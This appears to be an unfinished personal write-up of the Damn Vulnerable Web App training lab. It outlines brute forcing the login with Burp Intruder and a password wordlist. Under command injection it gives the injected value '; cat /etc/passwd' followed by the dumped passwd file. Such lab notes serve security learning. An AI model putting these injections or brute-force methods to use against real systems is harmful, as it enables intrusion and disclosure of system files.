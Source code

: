 ```yaml
---
layout: post
title: Damn vulnerable web app
slug: damn-vulnerable-web-app
name: damn-vulnerable-web-app
---
```


#Brute force

Low:

Running burp intruder with admin as pass and default password wordlist as a payload

Medium:


High:

Running burp intruder and grepping for csrf tokens and default password list as a payload, pitch fork for targeting

#Command Injection

Low:

Right off the bat, passing: ; cat /etc/passwd

{% highlight bash %}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
mysql:x:104:107:MySQL Server,,,:/nonexistent:/bin/false
{% endhighlight %}

Medium:
